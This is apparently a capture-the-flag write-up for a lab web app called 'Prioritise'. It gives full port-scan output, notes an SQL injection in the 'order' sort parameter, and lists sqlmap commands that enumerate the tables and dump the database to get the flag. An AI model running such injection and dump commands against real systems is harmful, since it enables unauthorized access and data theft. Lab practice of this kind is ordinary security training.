





# Port Scanning
```bash
❯ rustscan -a 10.49.188.46 -- -A

Open 10.49.188.46:22
Open 10.49.188.46:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f1:49:d4:7a:0d:88:11:d6:ab:f5:3f:27:f4:63:21:fd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDS7LpcYznfpj4UDd/raypo+gkv1wFF5HUVNETZuzJ5R8AekqJFyzmUNAXgbWOp10KHiOJz5EA0l+QvUzI/iu9PqI+ZXAybHtJS7T8vFo2d3TnX0qvIKNJEuaaZSleQlpV4a1nA6n4CBHevzbT7HejfZzuXvvNjUAUouD9ew8VT4g5wWTDWjUIjZReOvdBAEKebfsmcgYKeLQlbCR14wWwzgXPuYXDijFtBD1wvJQlBah8m2bETHl6M5kSfm/HHxBaz+ZZXuiBXfbGn7Zai4++vy+zefgIqT0l882barqlSDUSJ67bD8q/MOk/EVMZVaZiiRx27zbE254O5qetwTJyF1Li/LF4rZEJaJicrqrlrtg4NcKrRxZLkV4Vu9WIAYYx/EzKOWZnn2wl7S7qM8Xe5DQq0GT6XYBr0ws7n/AMj8I2IgnfkOz24erLRnX5VhHsgoMFqMvFN2MlUegLsRrj8ir5jAJVbaOON2lzLjii8tDjCcCRRhxqIxa+n9uQZAf0=
|   256 5f:3a:eb:d8:50:4b:20:a5:01:b6:cc:8c:e5:52:d7:c2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOlGht97YGAZvmQBbXb1u1KLzIneqzpGoel02MpnkWCfP5vJLFF3+t1lVT/q41/yRnewjzHdbYoRYrHqN5GgigY=
|   256 8e:9f:aa:b1:4a:4c:0a:e2:95:5f:b6:5e:bf:df:11:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFYoESpa2wl1UFWvxIdae1ns46L2CnKC7iLQlZPpOY7X
80/tcp open  rtsp    syn-ack ttl 61
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Prioritise
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2756
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/font-awesome.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap-datepicker.min.css"
|     crossorigin="anonymous"
|     <title>Prioritise</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">Prioritise</span></a>
|     <button
|     class="na
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 5.4 - 5.15 (96%), Linux 4.15 (95%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
```
First I visited the site.  <br/>
 <br/>
Added new Items <br/>
 <br/>
There is a sorting option to sort the item. So I first sort them by done. <br/>
 <br/>
After that I put a `'` on the `order` parameter and got an error. <br/>
 <br/>
I used sqlmap and got the tables of the database. <br/>
```bash
sqlmap -u 'http://10.49.188.46/?order=done' --level=5 --risk=3 --threads=5 --tables
```
 <br/>
Using the following command I retrieved the flag. <br/>
```bash
sqlmap -u 'http://10.49.188.46/?order=done' --level=5 --risk=3 --threads=5 --dump
```
